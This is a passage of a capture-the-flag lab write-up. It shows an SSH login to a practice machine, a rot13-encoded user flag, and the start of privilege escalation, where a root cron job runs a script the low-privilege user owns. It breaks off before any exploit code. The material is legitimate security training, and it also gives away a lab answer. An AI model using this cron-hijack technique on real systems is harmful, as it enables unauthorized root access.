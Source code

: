 boring@10.10.63.137's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ 
```

```
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```

It is rotated using rot13

<img src="images/rot13.png">


## Priv Esc

```
boring@kral4-PC:/tmp$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

```
boring@kral4-PC:/tmp$ ls -l /var/www/.
./                   ../                  .mysecretcronjob.sh
boring@kral4-PC:/tmp$ ls -l /var/www/.mysecretcronjob.sh 
-rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh
boring@kral4-PC:/tmp$ cat /var/www/.mysecretcronjob.sh 